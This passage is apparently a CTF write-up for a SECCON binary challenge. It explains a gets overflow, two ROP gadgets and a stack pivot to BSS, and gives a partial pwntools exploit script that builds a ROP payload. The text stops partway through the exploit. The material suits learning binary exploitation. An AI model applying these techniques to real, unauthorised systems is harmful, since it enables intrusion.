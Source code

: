 This is nearly identical to [kasu](../kasu).  `gets` is still the vulnerability.

Since there's nothing else in the GOT like `puts`, `printf`, `write`, etc... to leak any information, we're going to have to do this blind (with math).

#### Let's go shopping...

The two ROP gadgets that stood out were:

```
0x00000000004011bd: pop rsp; pop r13; pop r14; pop r15; ret;
```

and

```
0x000000000040111c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
```

> BTW, the second gadget was only emitted by `ROPgadget`!  `ropper` failed to find that gadget.  Lesson learned, use all your toys.

The `pop rsp` gadget will permit an easy stack pivot to the BSS, which is known thanks to _No PIE_.  This will allow the direct addressing of anything in the stack.  We will not need to leak the stack, since we own the entire stack.

The second gadget with the help from the tail end of `__libc_csu_init` enables us to _update_ the last 32-bits of any value we have the location of, and since we own the stack, we have all the locations we need.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./gosu')
libc = ELF('./libc-2.31.so')

if args.REMOTE:
    p = remote('hiyoko.quals.seccon.jp', 9002)
else:
    p = process(binary.path)
```

Stand pwntools header.

```python
new_stack = (binary.bss() & 0xfff000) + 0xf00
pop_rdi = binary.search(asm('pop rdi; ret')).__next__()
pop_rsp_r13_r14_r15 = binary.search(asm('pop rsp; pop r13; pop r14; pop r15; ret')).__next__()

payload  = b''
payload += 0x88 * b'A'
payload += p64(pop_rdi)
payload += p64(new_stack)
payload += p64(binary.plt.gets)
payload += p64(pop_rsp_r13_r14_r15)
payload += p64(new_stack)

p.sendline(payload)
```
